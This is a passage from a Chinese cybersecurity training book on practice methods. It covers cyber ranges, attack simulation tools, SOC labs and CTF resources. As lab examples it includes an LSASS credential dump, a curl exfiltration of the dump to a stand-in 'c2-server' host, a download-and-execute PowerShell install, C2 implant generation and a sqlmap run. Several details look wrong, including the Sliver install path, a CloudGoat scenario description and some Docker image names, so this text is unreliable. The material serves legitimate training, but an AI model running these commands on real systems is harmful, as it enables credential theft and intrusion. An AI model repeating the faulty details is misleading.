








# 26.5 练习方法

## 26.5.1 练习方法论框架

### 刻意练习原则

网络安全技能的提升遵循"刻意练习"（Deliberate Practice）理论——单纯重复低难度任务无法带来实质进步。有效的练习必须满足四个条件：



### PDCA练习循环

每个练习周期应遵循"计划→执行→检查→改进"（Plan-Do-Check-Act）循环：

| 阶段 | 红队视角 | 蓝队视角 | 紫队视角 |
|------|----------|----------|----------|
| Plan | 选择目标ATT&CK技术 | 针对该技术配置检测规则 | 红蓝双方协商模拟范围 |
| Do | 在靶场执行攻击 | 实时监控和告警响应 | 协调攻防演练节奏 |
| Check | 确认攻击是否成功 | 验证检测规则是否触发 | 评估攻防双方表现差距 |
| Act | 优化绕过方法 | 优化检测逻辑 | 更新联合演练脚本 |

### 练习时间分配建议



## 26.5.2 在线靶场平台

### 综合攻防平台

**Hack The Box（HTB）**

官网：https://www.hackthebox.com

Hack The Box 是业界公认最全面的渗透测试练习平台，提供数百台虚拟靶机和丰富的挑战题目。

| 特性 | 详情 |
|------|------|
| 靶机数量 | 300+台（持续更新） |
| 难度分级 | Easy / Medium / Hard / Insane |
| 覆盖系统 | Windows、Linux、FreeBSD、嵌入式 |
| 认证关联 | OSCP备考的最佳练习平台之一 |

**推荐练习路径：**

```text
起步阶段（0-3个月）
├── Starting Point：手把手教学，建立基础流程感
├── Easy Machines：熟悉信息收集→漏洞利用→提权的标准流程
└── 每台机器控制在4小时内完成，超时则查看官方WriteUp

进阶阶段（3-6个月）
├── Medium Machines：需要组合多种技术
├── 每周完成2-3台，重点记录方法论
└── 尝试在不看WriteUp的情况下独立完成

高级阶段（6个月以上）
├── Hard/Insane Machines：需要自定义exploit
├── Pro Labs：模拟真实企业内网（Dante、RastaLabs等）
└── Bug Bounty模式：参与真实资产的安全测试
```

**实战技巧：**

- 每台机器完成后，强制自己写一份不超过500字的复盘笔记
- 记录"关键转折点"——从卡住到突破的那一刻发生了什么
- 建立个人技术索引：遇到的每个漏洞类型→对应的利用方法

**TryHackMe**

官网：https://tryhackme.com

TryHackMe 以"引导式学习"著称，每个房间（Room）都包含理论讲解+实操练习，适合零基础入门。

| 特性 | 详情 |
|------|------|
| 房间数量 | 200+个结构化房间 |
| 学习路径 | 7条预设路径（Complete Beginner → Red Team） |
| 特色功能 | 浏览器内嵌终端，无需本地安装 |
| 免费内容 | 约60%内容免费可访问 |

**推荐学习路径：**

```text
Complete Beginner（4-6周）
  → Linux Fundamentals 1-3
  → Network Fundamentals 1-2
  → Web Fundamentals 1-2

Offensive Pentesting（8-12周）
  → Burp Suite（Web渗透必备）
  → Nmap
  → Metasploit
  → Privilege Escalation（Windows & Linux）

Red Team（12-16周）
  → Active Directory
  → Credential Harvesting
  → Pivoting, Tunneling & Port Forwarding
  → Red Team Ops（C2框架实战）
```

**PentesterLab**

官网：https://pentesterlab.com

专注于Web安全的精品靶场，每个练习都基于真实漏洞设计，代码审计与利用并重。

- 每个练习附带源代码，可从白盒视角理解漏洞
- 难度从基础XSS到复杂反序列化链，覆盖OWASP Top 10全部类型
- 适合有编程基础的学员，强调"理解漏洞成因"而非"会用工具"

### 云安全靶场

**CloudGoat**

CloudGoat 是由 Rhino Security Labs 开发的 AWS 攻击模拟靶场，使用 Terraform 自动化部署。

```bash
# 安装 CloudGoat
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
pip3 install -r requirements.txt

# 创建场景（以 iam_privesc_by_rollback 为例）
python3 cloudgoat.py create iam_privesc_by_rollback

# 场景会输出：
# - AWS Access Key
# - AWS Secret Key
# - 目标账户ID
# - 攻击说明

# 清理场景（重要！避免产生费用）
python3 cloudgoat.py destroy iam_privesc_by_rollback
```

**CloudGoat 核心攻击场景：**

| 场景名称 | 攻击目标 | 难度 |
|----------|----------|------|
| iam_privesc_by_rollback | IAM权限提升（利用iam:CreateRole版本回滚） | 初级 |
| ec2_ssrf | 通过EC2 SSRF获取实例元数据凭证 | 中级 |
| lambda_privesc | Lambda函数权限提升 | 中级 |
| rce_web_app | Web应用远程代码执行→内网渗透 | 中级 |
| cloud_breach_s3 | S3存储桶敏感数据泄露 | 中级 |
| vulnerable_cognito | Cognito用户池攻击 | 高级 |

**DVWA（Damn Vulnerable Web Application）**

```bash
# Docker一键部署
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# 默认账号：admin / password
# 首次访问需点击"Create / Reset Database"初始化
```

DVWA 是Web安全入门的经典靶场，覆盖SQL注入、XSS、CSRF、文件上传等核心Web漏洞，每个漏洞提供Low/Medium/High/Impossible四个难度级别，可直观对比安全代码与不安全代码的差异。

**Juice Shop**

```bash
# OWASP Juice Shop — 现代Web应用靶场
docker run --rm -p 3000:3000 bkimminich/juice-shop

# 访问 http://localhost:3000
# 包含100+个挑战，难度从1星到6星
```

Juice Shop 模拟真实的电商应用，漏洞类型涵盖注入、认证缺陷、敏感数据泄露、不安全配置等。其挑战计分系统和进度追踪功能非常适合自学。

### 企业级攻防平台

**AttackForge**

企业级渗透测试管理平台，支持多人协作攻防演练：

- 标准化的测试流程：范围定义→测试执行→报告生成
- 内置漏洞数据库和CVSS评分系统
- 支持自定义测试模板和报告模板
- 适合安全团队内部培训和协作练习

**Pentera**

自动化安全验证平台（ASV），模拟真实攻击路径验证企业防御能力：

- 3000+种预置攻击路径
- 自动发现网络资产并制定攻击计划
- 生成安全差距报告和修复建议
- 适合蓝队验证检测覆盖率和防御有效性

## 26.5.3 攻击模拟工具

### MITRE Caldera

Caldera 是 MITRE 开发的自动化对手模拟平台，是紫队协作的核心工具。它将 ATT&CK 框架中的技术转化为可执行的自动化攻击操作。

**安装与部署：**

```bash
# 克隆仓库
git clone https://github.com/mitre/caldera.git --recursive
cd caldera

# 创建Python虚拟环境（推荐）
python3 -m venv venv
source venv/bin/activate

# 安装依赖
pip install -r requirements.txt

# 启动服务（默认端口8888）
python server.py --insecure

# 浏览器访问：http://localhost:8888
# 默认用户名：admin / 密码：admin（首次登录强制修改）
```

**核心概念与操作流程：**



**关键功能详解：**

| 功能 | 说明 | 使用场景 |
|------|------|----------|
| Adversary Profiles | 定义攻击剧本，串联多个ATT&CK技术 | 模拟特定APT组织的攻击手法 |
| Factories | 根据前一步结果动态决定下一步操作 | 模拟自适应攻击行为 |
| Agents | 部署在目标上的轻量级载荷 | 维持持久化访问 |
| Abilities | 单个ATT&CK技术的具体实现 | 精确测试某个检测规则 |
| Operations | 一次完整的攻击演练实例 | 端到端评估防御能力 |

**实战练习：模拟Cobalt Strike行为**

```yaml
# 创建自定义Adversary Profile
name: "Credential Access Simulation"
description: "模拟凭证窃取攻击链"

abilities:
  - tactic: discovery
    ability_id: "T1087.001"  # 本地账户枚举
    command: "net user"
    
  - tactic: credential-access
    ability_id: "T1003.001"  # LSASS内存转储
    command: "procdump -ma lsass.exe -accepteula"
    
  - tactic: exfiltration
    ability_id: "T1041"  # 通过C2通道外传
    command: "curl -X POST -d @dump.bin http://c2-server/upload"
```

### Atomic Red Team

Atomic Red Team 是 Red Canary 维护的 ATT&CK 技术测试库，每个"Atomic Test"都是一段可直接执行的测试脚本，用于验证特定 ATT&CK 技术的检测覆盖率。

**安装：**

```powershell
# PowerShell安装（Windows环境）
Install-Module -Name invoke-atomicredteam -Scope CurrentUser -Force

# 或使用脚本安装
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics
```

```bash
# Linux环境使用Docker
docker pull redcanary/atomic-red-team
docker run --rm -it -v /path/to/techniques:/techniques redcanary/atomic-red-team
```

**核心操作命令：**

```powershell
# 查看某个技术的所有测试用例
Invoke-AtomicTest T1003.001 -ShowDetailsBrief

# 执行测试（带详细输出）
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs

# 执行并清理（执行后自动还原环境）
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup

# 生成检测验证报告
Invoke-AtomicTest T1003.001 -PathToAtomicsFolder ./atomics -Detailed
```

**常用测试用例速查：**

| ATT&CK ID | 技术名称 | 测试内容 | 检测要点 |
|-----------|----------|----------|----------|
| T1003.001 | LSASS内存转储 | procdump/Mimikatz转储 | 进程访问异常（Event ID 10） |
| T1053.005 | 计划任务创建 | schtasks创建定时任务 | 新计划任务创建（Event ID 4698） |
| T1547.001 | 注册表自启动 | 写入Run键实现持久化 | 注册表修改（Event ID 13） |
| T1059.001 | PowerShell执行 | 下载并执行脚本 | 脚本块日志（Event ID 4104） |
| T1021.001 | RDP横向移动 | 远程桌面连接 | 新RDP连接（Event ID 4624 Type 10） |

**蓝队视角：检测覆盖率验证工作流**

```text
1. 选择待验证的ATT&CK技术
   ↓
2. 使用Invoke-AtomicTest执行测试
   ↓
3. 在SIEM中搜索对应日志（Windows事件/Sysmon/EDR日志）
   ↓
4. 记录：是否检测到？告警是否准确？误报率如何？
   ↓
5. 更新检测规则或新建规则
   ↓
6. 重新执行测试验证规则有效性
   ↓
7. 输出检测覆盖率矩阵（检测率/误报率/响应时间）
```

### Infection Monkey

Infection Monkey 是开源的网络攻击模拟工具，专注于模拟攻击者在网络中的横向移动和内部侦察。

```bash
# Docker部署
docker run --rm -it -p 5000:5000 guardicore/monkey:latest

# 访问：https://localhost:5000
# 需要在目标机器上部署Agent
```

**核心能力：**

- 自动化网络渗透：扫描开放端口、利用弱口令、尝试已知漏洞
- 横向移动模拟：利用窃取的凭证在内网跳板
- 可视化攻击路径图：直观展示攻击者如何从边界突破到核心资产
- 安全差距分析：识别网络分段不足、凭证复用、未修补漏洞等问题

### Cobalt Strike模拟（合规环境）

Cobalt Strike 是商业红队C2（Command & Control）框架，仅限授权安全测试使用。学习阶段推荐使用开源替代品进行练习：

```bash
# Sliver（开源C2框架，Go语言编写）
# 安装
go install github.com/sliverlab/sliver@latest

# 生成载荷
sliver > generate --os windows --arch amd64 --save /tmp/implant.exe

# 设置监听器
sliver > http --lhost 0.0.0.0 --lport 443
```

```bash
# Havoc（开源C2框架，支持团队协作）
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc
make ts-client  # 编译客户端
make teamserver # 启动团队服务器
```

**练习建议：**

- 搭建本地隔离网络进行C2通信练习
- 重点学习流量特征分析：如何识别C2通信的网络指纹
- 蓝队视角：使用Zeek/Suricata检测C2工具的网络行为

## 26.5.4 蓝队练习平台

### 安全运营中心（SOC）练习

**LetsDefend**

官网：https://letsdefend.io

LetsDefend 是最接近真实SOC工作环境的在线平台，提供从告警分诊到事件响应的完整演练。

| 功能模块 | 内容 | 对应技能 |
|----------|------|----------|
| Alert Triage | 真实告警分析（钓鱼/恶意软件/暴力破解） | 日志分析、告警研判 |
| Incident Response | 完整事件响应流程 | 证据保全、根因分析、报告撰写 |
| Malware Analysis | 恶意软件样本分析 | 静态分析、动态行为分析 |
| Forensics | 数字取证挑战 | 磁盘取证、内存取证、网络取证 |

**练习方法：**

```text
每日练习流程（建议1-2小时）：
├── 1. 完成1-2个Alert Triage练习（15分钟/个）
│   └── 记录：告警类型→分析过程→判断依据→处置动作
├── 2. 进行1个Incident Response场景（30分钟）
│   └── 关注：时间线重建→影响范围→根因分析→修复建议
└── 3. 复盘总结（10分钟）
    └── 更新个人SOP（标准操作流程）文档
```

**CyberDefenders**

官网：https://cyberdefenders.org

蓝队挑战平台，提供高难度的数字取证和事件响应场景。

核心挑战类型：

- **恶意软件分析**：逆向工程、行为分析、C2通信还原
- **内存取证**：Volatility工具实战、进程注入检测
- **磁盘取证**：文件系统分析、时间线重建、隐藏数据恢复
- **网络取证**：PCAP分析、流量回放、数据外传检测
- **事件响应**：完整攻击链重建、IoC提取、报告编写

### 自建SOC练习环境

**Security Onion部署：**

```bash
# Security Onion 2.4推荐安装方式（Ubuntu 22.04 LTS）
# 完整部署约需16GB RAM、4核CPU、200GB存储

# 1. 下载安装脚本
curl -so /tmp/so-install https://raw.githubusercontent.com/Security-Onion-Solutions/securityonion/master/securityonion-setup.sh
chmod +x /tmp/so-install

# 2. 运行安装程序
sudo /tmp/so-install

# 3. 部署完成后，通过Web界面完成配置
# https://<your-ip>
```

Security Onion 集成的安全工具栈：

| 工具 | 功能 | 学习重点 |
|------|------|----------|
| Suricata | 网络入侵检测（NIDS） | 规则编写、告警分析 |
| Zeek | 网络流量分析 | 协议解析、连接日志 |
| Elastic Stack | 日志存储和可视化 | KQL查询、仪表盘构建 |
| Wazuh | 主机入侵检测（HIDS） | 系统完整性监控 |
| CyberChef | 数据编解码 | 分析恶意载荷、解密数据 |

### 威胁情报练习

**MISP（Malware Information Sharing Platform）**

```bash
# Docker部署MISP
docker run -d --name misp \
  -p 443:443 \
  -p 80:80 \
  -v /var/www/MISP/app/Config:/var/www/MISP/app/Config \
  -v /var/www/MISP/app/files:/var/www/MISP/app/files \
  misy2s/misp-docker

# 默认账号：admin@admin.test / admin
```

**OpenCTI**

```bash
# Docker Compose部署OpenCTI
git clone https://github.com/OpenCTI-Platform/opencti.git
cd opencti/docker
docker-compose up -d

# 访问：http://localhost:8080
```

OpenCTI 核心功能练习：

- 创建和管理威胁情报实体（威胁行为者、攻击活动、IoC）
- 建立实体间的关联关系（STIX 2.1对象模型）
- 使用CTI查询语言检索情报
- 集成外部数据源（OTX、VirusTotal、Shodan）

## 26.5.5 自建实验环境

### 企业内网攻防实验室

**基础架构设计：**



**使用 Vagrant + Ansible 自动化部署：**

```ruby
# Vagrantfile — 部署域控制器
Vagrant.configure("2") do |config|
  config.vm.provider "virtualbox" do |vb|
    vb.memory = "4096"
    vb.cpus = 2
  end

  config.vm.define "dc" do |dc|
    dc.vm.box = "gusztavvargadr/windows-server-2019-standard"
    dc.vm.hostname = "DC01"
    dc.vm.network "private_network", ip: "192.168.56.10"
    
    dc.vm.provision "shell", path: "scripts/setup-ad.ps1"
  end

  config.vm.define "web" do |web|
    web.vm.box = "ubuntu/jammy64"
    web.vm.hostname = "WEB01"
    web.vm.network "private_network", ip: "192.168.56.20"
    web.vm.network "forwarded_port", guest: 80, host: 8080
    
    web.vm.provision "ansible" do |ansible|
      ansible.playbook = "ansible/setup-web.yml"
    end
  end

  config.vm.define "workstation" do |ws|
    ws.vm.box = "gusztavvargadr/windows-10"
    ws.vm.hostname = "WS01"
    ws.vm.network "private_network", ip: "192.168.56.30"
  end
end
```

```powershell
# scripts/setup-ad.ps1 — 自动配置域控制器
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Import-Module ADDSDeployment

# 创建新林
Install-ADDSForest `
  -DomainName "lab.local" `
  -DomainNetBIOSName "LAB" `
  -SafeModeAdministratorPassword (ConvertTo-SecureString "your_password123!" -AsPlainText -Force) `
  -InstallDNS:$true `
  -NoRebootOnCompletion:$true `
  -Force:$true

# 创建测试用户和OU
New-ADOrganizationalUnit -Name "Sales" -Path "DC=lab,DC=local"
New-ADOrganizationalUnit -Name "IT" -Path "DC=lab,DC=local"

New-ADUser -Name "john.doe" -SamAccountName "john.doe" `
  -UserPrincipalName "john.doe@lab.local" `
  -Path "OU=Sales,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Welcome123!" -AsPlainText -Force) `
  -Enabled $true

New-ADGroup -Name "Domain Admins Backup" -GroupScope Global `
  -Path "OU=IT,DC=lab,DC=local"
```

### DetectionLab环境

DetectionLab 是自动化搭建安全研究环境的开源项目，一键部署包含 AD 域控、SIEM、日志转发的完整环境。

```bash
# 克隆DetectionLab
git clone https://github.com/clong/DetectionLab.git
cd DetectionLab

# 部署（需要VirtualBox + Vagrant，约30GB存储）
./build.sh

# 环境组件：
# DC     - Windows Server 2016 域控制器 (192.168.56.102)
# WEF    - Windows事件转发服务器 (192.168.56.103)
# Win10  - 域内工作站 (192.168.56.104)
# Logger - ELK + Splunk 日志分析服务器 (192.168.56.105)
```

**练习项目：**

```text
阶段1：环境熟悉（1周）
├── 了解各服务器角色和网络拓扑
├── 登录各服务器查看默认配置
└── 验证日志是否正常传输到Logger

阶段2：检测规则编写（2周）
├── 在Splunk中搜索Windows安全日志
├── 编写规则检测"黄金票据"攻击
├── 编写规则检测"Kerberoasting"攻击
└── 编写规则检测"DCSync"攻击

阶段3：攻击模拟与检测验证（2周）
├── 使用Mimikatz执行凭证窃取
├── 在Splunk中验证检测规则触发
├── 优化规则减少误报
└── 输出检测覆盖率报告

阶段4：事件响应演练（1周）
├── 模拟APT攻击完整链路
├── 蓝队进行事件响应和取证
└── 红蓝对抗总结会议
```

### 本地Docker靶场集合

```bash
# 创建专用Docker网络
docker network create --subnet=172.20.0.0/16 lab-net

# 启动Web安全靶场集
docker run -d --name dvwa --network lab-net -p 8080:80 vulnerables/web-dvwa
docker run -d --name juice-shop --network lab-net -p 3000:3000 bkimminich/juice-shop
docker run -d --name webgoat --network lab-net -p 8081:8080 webgoat/webgoat

# 启动系统安全靶场
docker run -d --name metasploitable --network lab-net -p 21-25,80,443,445,3306,3389,5432:21-25,80,443,445,3306,3389,5432 tleemcjr/metasploitable2
docker run -d --name hackthebox --network lab-net -p 9999:80 vulnerable/hackthebox

# 使用Portainer统一管理
docker run -d --name portainer -p 9000:9000 -v /var/run/docker.sock:/var/run/docker.sock portainer/portainer-ce

# 验证所有容器运行状态
docker ps --format "table {{.Names}}\t{{.Status}}\t{{.Ports}}"
```

## 26.5.6 CTF竞赛与社区

### CTF竞赛分类与参与策略



### 推荐竞赛

| 竞赛名称 | 类型 | 难度 | 频率 | 特点 | 适合人群 |
|----------|------|------|------|------|----------|
| DEF CON CTF | 攻防混合 | 极高 | 年度 | 全球顶级CTF赛事 | 资深红队 |
| PlaidCTF | Jeopardy | 高 | 年度 | 技术深度极高 | 高级选手 |
| HTB University CTF | Jeopardy | 中-高 | 半年度 | 适合学生团队 | 在校学生 |
| SECCON CTF | Jeopardy | 中-高 | 年度 | 日本主办，国际赛事 | 各级选手 |
| 网鼎杯 | 综合 | 中-高 | 年度 | 国内权威赛事 | 中高级选手 |
| 攻防世界 | Jeopardy | 初-中 | 常驻 | 国内优质练习平台 | 入门-中级 |
| BUUCTF | Jeopardy | 初-中 | 常驻 | 题目丰富，覆盖全面 | 入门-中级 |
| picoCTF | Jeopardy | 初级 | 年度 | 面向学生的入门赛事 | 初学者 |

### CTF各方向入门资源

**PWN（二进制漏洞利用）：**

```bash
# 练习环境搭建
# 安装pwntools（Python CTF工具库）
pip install pwntools

# 安装pwndbg（GDB增强插件，调试必备）
git clone https://github.com/pwndbg/pwndbg.git
cd pwndbg && ./setup.sh

# 常见题型练习
# 1. ret2text：覆盖返回地址执行程序内函数
# 2. ret2shellcode：注入shellcode执行
# 3. ret2libc：利用libc函数（system/execve）
# 4. Stack Canary绕过：信息泄露→泄露canary值
# 5. ASLR绕过：信息泄露→泄露基地址
```

**Reverse（逆向工程）：**

```bash
# 常用工具链
# 静态分析
IDA Pro / Ghidra（开源替代）/ Binary Ninja

# 动态调试
x64dbg（Windows）/ GDB+GEF/pwndbg（Linux）

# 自动化分析
radare2 / rizin

# 练习建议
# 1. 先分析简单 CrackMe 程序
# 2. 学习x86/x64汇编指令集
# 3. 掌握常见反调试技术的绕过方法
# 4. 分析CTF题目中的混淆/壳技术
```

**Web方向：**

```bash
# 核心工具
# Burp Suite — Web渗透测试必备
# 安装Community Edition（免费版）
# https://portswigger.net/burp/communitydownload

# SQLMap — 自动化SQL注入
pip install sqlmap
sqlmap -u "http://target/page?id=1" --dbs --batch

# 常见Web题型
# 1. SQL注入（联合注入/布尔盲注/时间盲注）
# 2. XSS（反射型/存储型/DOM型）
# 3. 文件上传（绕过WAF/解析漏洞）
# 4. 反序列化（PHP/Java/Python）
# 5. 原型链污染
# 6. SSTI模板注入
```

### 安全社区资源

| 社区 | 语言 | 特色 | 推荐用途 |
|------|------|------|----------|
| Reddit r/netsec | 英文 | 国际安全新闻和讨论 | 跟踪最新漏洞和工具 |
| Hacker News | 英文 | 技术深度讨论 | 安全研究和行业趋势 |
| 先知社区 | 中文 | Web安全技术文章 | Web漏洞学习和WriteUp |
| 看雪论坛 | 中文 | 逆向/漏洞利用深度内容 | PWN和Reverse方向 |
| FreeBuf | 中文 | 安全资讯和行业动态 | 了解国内安全行业 |
| 安全客 | 中文 | 360旗下安全社区 | 漏洞分析和安全事件 |
| 嘶吼 | 中文 | 安全技术深度文章 | 安全架构和攻防实战 |
| GitHub Security | 英文 | 开源安全工具和研究 | 工具学习和代码审计 |

### WriteUp学习法

完成CTF题目后，阅读高质量WriteUp是快速提升的关键：

```text
WriteUp学习流程：
├── 1. 独立完成题目（或至少尝试1-2小时）
├── 2. 查找该题目的WriteUp（3-5篇不同作者的）
├── 3. 对比不同解法，记录每种方法的核心思路
├── 4. 总结：这道题考察了哪些知识点？
├── 5. 延伸：搜索相关知识点的深入资料
